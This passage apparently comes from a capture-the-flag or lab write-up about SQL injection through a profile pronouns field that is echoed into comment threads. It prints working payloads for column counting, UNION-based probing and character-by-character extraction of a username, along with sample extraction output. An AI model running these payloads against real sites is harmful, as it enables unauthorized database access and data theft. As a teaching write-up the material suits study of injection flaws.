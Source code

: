 ```
' OR id=12 ORDER BY 1 --   (works)
' OR id=12 ORDER BY 2 --   (works)
' OR id=12 ORDER BY 3 --   (crash)
```

The error at `ORDER BY 3` reveals that two columns are selected by the SQL query.

Trying union-based injection:

```
' OR id=12 UNION SELECT null,null --
```

This works, resulting in an extra row.
Fine-tuning the payload shows the first column must be `NULL`, the second can be numeric or `NULL`.

To check how much data can be exfiltrated, try leaking the username length:

```
' UNION SELECT NULL, LENGTH(username) FROM users WHERE id=12 --
```

By tagging self with this payload in pronouns, the length (`5` for "Sonic") shows up in the comment thread.

---

## Automated Data Extraction

Reading data one byte at a time is slow, but it works.
Example payload to extract each character's ASCII value:

```
' UNION SELECT NULL, ASCII(SUBSTRING((SELECT username FROM users WHERE id=12),N,1)) --
```

For each index N, update pronouns, post a comment tagging the user, and note the output.
Obviously, automating this is the way to go.
A Python script cycles through:

* Creating a new movie for an isolated comment space
* Updating pronouns with the injection
* Posting a tag-comment
* Extracting ASCII values from responses
* Decoding characters, moving to the next position
* Stopping when the output is empty

Output looks like:

```
[1] ASCII: 83 => S
[2] ASCII: 111 => o
[3] ASCII: 110 => n
[4] ASCII: 105 => i
[5] ASCII: 99 => c
out : Sonic
```

